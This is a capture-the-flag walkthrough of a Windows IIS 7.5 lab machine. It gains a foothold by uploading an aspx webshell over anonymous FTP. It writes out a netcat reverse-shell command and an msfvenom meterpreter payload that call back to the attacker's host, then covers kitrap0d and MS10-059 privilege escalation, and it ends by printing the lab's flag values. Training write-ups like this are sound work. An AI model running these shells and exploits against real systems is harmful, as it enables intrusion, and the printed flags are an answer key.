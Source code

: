## Enumeration

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
```
### Key Findings

- **Anonymous FTP Login**
- **Web Server Running IIS7/ASP.NET** suitable for `.aspx` webshell

---

## Exploitation

### Manual Exploitation

From our enumeration, we know this is an **IIS 7 Server** that allows **Anonymous FTP login**. This allows us to upload files to the FTP server and access them through the web interface, allowing for **Remote Code Execution (RCE)**.

To exploit this, we will upload a WebShell. Since the server runs on ASP.NET, we will use an `.aspx` webshell.

There is a `cmd.aspx` webshell included in **SecLists**.

![Webshell in SecLists](Images/Pasted%20image%2020250315151139.png)

We will make a copy of this and upload it to the respective FTP server and access it via the HTTP web interface.

Copying the WebShell to our working directory and uploading the file via **Anonymous FTP** login:

![Uploading WebShell](Images/Pasted%20image%2020250315151416.png)

Accessing the WebShell via HTTP:

![Accessing WebShell](Images/Pasted%20image%2020250315151502.png)

#### Leveraging the WebShell for a Reverse Shell

We will generate a shell on the target Windows host using `nc.exe` instead of a generic Meterpreter payload.

Copy `nc.exe` to our local directory:

![Copy nc.exe](Images/Pasted%20image%2020250315151955.png)

Host our working directory as an SMB share for the WebShell to access the `nc.exe` file:

![Host SMB Share](Images/Pasted%20image%2020250315152338.png)

Now that we have the `nc.exe` file hosted, we can set up a listener for the shell and access the file via our WebShell:

- `nc -lnvp 9090` to set up the listener to catch the shell.
- `\\10.10.14.10\share\nc.exe -e cmd.exe 10.10.14.10 9090` in our WebShell to access the file.

![Listener Setup](Images/Pasted%20image%2020250315152645.png)

#### Exploitation Path

1. Upload a WebShell via Anonymous FTP login.
2. Host Netcat on a local SMB share.
3. Set up a local Netcat listener.
4. Utilize the WebShell to access the Netcat file and provide a reverse shell on port 9090.

---

### Metasploit Exploitation

1. Generate the MSFvenom payload:
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=7781 -f aspx > shell.aspx`
2. Upload the file via FTP.
    
3. Set up a multi-handler for the respective payload:
    
    ![Multi-handler Setup](Images/Pasted%20image%2020250315165128.png)
    
4. Navigate to the shell via HTTP:
    
    ![Accessing Shell](Images/Pasted%20image%2020250315165212.png)
    

**Profit!**

---

## Post-Exploitation

### Enumeration

#### Manual Enumeration
Run Windows-Exploit-Suggester locally
![](Images/Pasted%20image%2020250315173504.png)
We will be using MS10-059
https://github.com/abatchy17/WindowsExploits/tree/master/MS10-059%20-%20Chimichurri
#### Metasploit Enumeration

1. Background the session and load up **exploit suggester**:
    
    ![Exploit Suggester](Images/Pasted%20image%2020250315165334.png) ![Exploit Results](Images/Pasted%20image%2020250315165450.png)
    

### Privilege Escalation

#### Metasploit

From our enumeration, we found this host is vulnerable to **kitrap0d**. Configure the exploit and run it:

![Kitrap0d Exploit](Images/Pasted%20image%2020250315165635.png) ![System Privileges](Images/Pasted%20image%2020250315165731.png)

Now we have **system-level privileges**.

#### Manual Privilege Escalation

1. We will use **MS10-059**:  
    [GitHub Link](https://github.com/abatchy17/WindowsExploits/tree/master/MS10-059%20-%20Chimichurri)
    
2. Host the exploit using a simple Python web server:
    
    `python3 -m http.server 8000`
    
3. Using `certutil`, transfer the file over:
    
    ![Certutil File Transfer](Images/Pasted%20image%2020250315174309.png)
    
4. Exploit the vulnerability:
    
    ![Running Exploit](Images/Pasted%20image%2020250315174427.png) ![Successful Exploit](Images/Pasted%20image%2020250315174411.png) ![Privilege Escalation](Images/Pasted%20image%2020250315174501.png)
    

---

### Flags

#### User Flag

Submit the flag located on the `babis` user's desktop:

`d2b2bd39e219fabca3ec69cc395f3536`

![User Flag](Images/Pasted%20image%2020250315170131.png)

#### Root Flag

Submit the flag located on the `administrator`'s desktop:

`cd31f47cb2eed3c30b0fc335543ce6b4`
![](Images/Pasted%20image%2020250315170205.png)